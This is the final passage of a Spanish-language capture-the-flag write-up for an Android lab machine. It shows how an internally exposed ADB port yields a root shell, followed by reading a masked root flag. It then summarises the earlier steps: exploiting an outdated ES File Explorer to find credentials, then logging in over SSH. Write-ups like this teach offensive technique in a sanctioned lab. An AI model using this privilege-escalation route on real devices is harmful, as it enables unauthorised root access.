 ```bash
vendor
vendor_file_contexts
vendor_hwservice_contexts
vendor_property_contexts
vendor_seapp_contexts
vendor_service_contexts
vndservice_contexts
```
Podemos tener una shell interactiva corriendo una terminal `sh`

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ adb shell /bin/sh 
whoami
root
```
¡Y además ya somos `root`!, (Si no fuese así, deberás ejecutar el comando `su` y deberías convertirte en usuario `root`)

Una vez aquí, podremos ver la flag `root.txt` en `/data/root.txt`:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ adb shell "cat /data/root.txt"
fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX5
```

# Conclusión

En esta máquina **Android (Linux)**, para acceder como usuario no privilegiado, hemos explotado una vulnerabilidad de una **versión desactualizada** del software `ES file explorer` con el que hemos podido visualizar una imágen con **credenciales**, las cuales hemos utilizado para conectarnos a la máquina por **SSH**.
Para obtener acceso como usuario root, nos hemos aprovechado de un **puerto abierto internament**e que correspondía con `ADB` para generar una shell como root.
